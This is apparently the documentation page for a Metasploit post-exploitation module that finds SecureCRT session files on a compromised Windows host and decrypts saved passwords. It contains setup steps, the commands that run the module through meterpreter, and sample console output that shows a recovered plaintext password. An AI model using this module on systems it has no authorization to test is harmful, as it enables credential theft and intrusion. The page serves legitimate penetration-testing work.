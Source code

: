 ## Vulnerable Application

All [SecureCRT](https://www.vandyke.com/cgi-bin/releases.php?product=securecrt) installations are affected, regardless 
of which OS they are installed on, since they all use the same encryption mechanisms described by HyperSine in 
his [GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).
Note that at the moment this module only supports exploiting Windows machines.

### Overview
All versions of SecureCRT have an option to allow users to store an encrypted copy of their session information on the
local computer, allowing them to easily restart a session without having to reenter all the connection details such as
the host, username, and password. These details are stored in a local session file, and SecureCRT will additionally
encrypt the password with AES encryption.

Unfortunately for SecureCRT users, the encryption mechanism used uses a weak IV of all 0's, and the encryption keys 
that are utilized to encrypt the passwords have been publicly reversed and documented by HyperSine in [his GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

In addition, HyperSine also published a PoC script that allows users to decrypt SecureCRT session files, regardless
of the version of SecureCRT installed. The only limitation is that users must know the SecureCRT configuration password
if one was set at installation. At the time of writing, September 11, 2020, it appears that Vandyke, the creators of 
SecureCRT, have still not changed the implementation details for this session encryption algorithm. 

This module ports the work from HyperSine and implements it in a Metasploit module that allows users to easily retrieve
any SecureCRT session files from a compromised Windows machine and then decrypt the session passwords where its possible
to do so. All session information retrieved will be stored a Metasploit loot file, along with the password if
it can be decrypted.

### Setup Steps

1. Download the latest installer of SecureCRT from https://www.vandyke.com/cgi-bin/releases.php?product=securecrt.
   You will need a valid login, which can be obtained by completing the registration form at
   https://www.vandyke.com/cgi-bin/download_application.php?pid=scrt_x64_873&force=1, after which an 
   email will be sent to you with the valid login details.
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start SecureCRT. A prompt will appear asking if one wants to set a 
   configuration passphrase to encrypt sensitive data such as saved passwords and login actions. Set a 
   passphrase of your choice here, but be sure to remember it.
4. Set up a SSH server on your target. For Windows 10 v1809 and later and 
   Windows Server 2019 and later, this can be done by running the PowerShell
   command `Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`,
   followed by `Start-Service sshd`.

## Verification Steps

  1. Use SecureCRT to login to a SSH server of your choosing. When logging in, 
     remember to select the check boxes to save the username (should be selected 
     by default), as well as the checkbox to save the account password.
  3. Get a `meterpreter` session on the Windows host running SecureCRT.
  4. Do: `run post/windows/gather/credentials/securecrt`
  5. Optional: Run `set PASSPHRASE *SecureCRT configuration passphrase*` if a configuration 
     passphrase was set for SecureCRT and you are aware of what its value is. 
  5. If the session file was saved on the target, the module will print out the details 
     of the host and port that the user connected to, as well as which username the user 
     signed in with and the plaintext version of the password that was used.

## Options

 **PASSPHRASE**

  The configuration password that was set when SecureCRT was installed, if one was supplied.
  Note that if this value is not supplied and SecureCRT was set up to use a configuration password, 
  it will not be possible to decrypt the encrypted SecureCRT passwords that are retrieved.

## Scenarios

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt 
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch: 
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target 
  system and, if it is, it will try to dump all saved session 
  information from the target. The passwords for these saved sessions 
  will then be decrypted where possible, using the decryption 
  information that HyperSine reverse engineered. Note that whilst 
  SecureCRT has installers for Linux, Mac and Windows, this module 
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1 
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > set Passphrase whatabadpassword
Passphrase => whatabadpassword
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator  thePassword123!

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125545_default_172.20.150.24_host.securecrt_s_504557.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/securecrt) >
```

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled, But No Password Provided)
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/securecrt 
msf6 post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch: 
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target 
  system and, if it is, it will try to dump all saved session 
  information from the target. The passwords for these saved sessions 
  will then be decrypted where possible, using the decryption 
  information that HyperSine reverse engineered. Note that whilst 
  SecureCRT has installers for Linux, Mac and Windows, this module 
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf6 post(windows/gather/credentials/securecrt) > set SESSION 1 
SESSION => 1
msf6 post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] It seems the user set a configuration password when installing SecureCRT!
[-] If you know the configuration password, please provide it via the PASSPHRASE option and then run the module again.
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator  

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125521_default_172.20.150.24_host.securecrt_s_951139.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/securecrt) >
```